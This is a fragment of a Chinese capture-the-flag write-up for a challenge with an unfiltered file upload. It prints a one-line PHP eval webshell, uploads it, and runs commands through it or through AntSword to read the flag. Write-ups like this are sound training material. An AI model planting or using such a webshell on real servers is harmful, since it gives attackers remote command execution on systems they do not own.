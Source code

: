 <img src="BestiCTF S1 Week14.assets/image-20241216172902047.png" alt="image-20241216172902047" style="zoom:50%;" />

尝试上传，发现没有任何过滤，上传 webshell ，内容如下：

```php
<?php @eval($_REQUEST['shell']);?>
```

上传后，打开 webshell url，直接输入命令即可得到 flag：

![image-20241216172907780](BestiCTF S1 Week14.assets/image-20241216172907780.png)

或者使用蚁剑连接：

![image-20241216172912107](BestiCTF S1 Week14.assets/image-20241216172912107.png)

也可以在根目录找到 flag：

![image-20241216172916344](BestiCTF S1 Week14.assets/image-20241216172916344.png)

#### 总结
* 文件上传
